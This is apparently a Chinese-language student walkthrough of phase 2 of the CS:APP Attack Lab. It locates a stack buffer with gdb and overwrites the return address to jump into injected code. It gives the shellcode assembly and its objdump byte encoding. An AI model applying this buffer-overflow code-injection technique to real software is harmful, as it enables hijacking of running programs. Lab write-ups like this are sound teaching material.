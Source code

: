 首先，要完成第一步，我们首先得找到 buf 的开头位置。通过 phase 1 的 getbuf 我们可以知道，buf 的位置在压完返回地址后减去 40 个字节的位置。因为前三问的栈的位置固定，因此我们可以通过 gdb 看一下减去 40 以后`%rsp`在哪里。
我们着重观察 3 个地方的`$rsp`：

1. 调用`getbuf`之前: 0x5561dca8
2. 调用`getbuf`之后: 0x5561dca0
3. 调用`rsp = rsp - 40`之后: 0x5561dc78

那么我们可以判断 buf 的起始位置是`0x5561dc78`，返回地址的位置在其后 40 个字节处，也就是`0x5561dca0`。那么我们需要让 return address(buf 最后 8 个字节)的值等于`0x5561dc78`。换成小端序就是`0x78 0xdc 0x61 0x55`。

第二条要生成的指令应该是:

```
movl $0x6044e4,%eax
movl (%eax),%edi
```

第三条要生成的指令应该是：

```
subq $0x8,%rsp
movl 0x4017ec,($rsp)
```

最后一条插入的指令是`ret`，在这个过程中，`%rsp`处的内容会被赋值给`%rip`，`%rsp`会自动加上 8。

最后插入数条`nop`指令实现 PC 的顺序累加。

由于这些指令在 Appendix A 表格中没有，所以我们需要手动生成。我们将如下内容保存在文件中：

```
    movl $0x6044e4,%eax
    movl (%eax),%edi
    subq $0x8,%rsp
    movl $0x4017ec,(%rsp)
    ret
    nop
    nop
    nop
    nop
```

然后使用`gcc -c ph2.s`生成`ph2.o`文件，然后使用`objdump -d ph2.o > ph2.d`，打开`ph2.d`，有如下内容：

```

ph2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	b8 e4 44 60 00       	mov    $0x6044e4,%eax
   5:	67 8b 38             	mov    (%eax),%edi
   8:	48 83 ec 08          	sub    $0x8,%rsp
   c:	c7 04 24 ec 17 40 00 	movl   $0x4017ec,(%rsp)
  13:	c3                   	retq
  14:	90                   	nop
  15:	90                   	nop
  16:	90                   	nop
  17:	90                   	nop
```
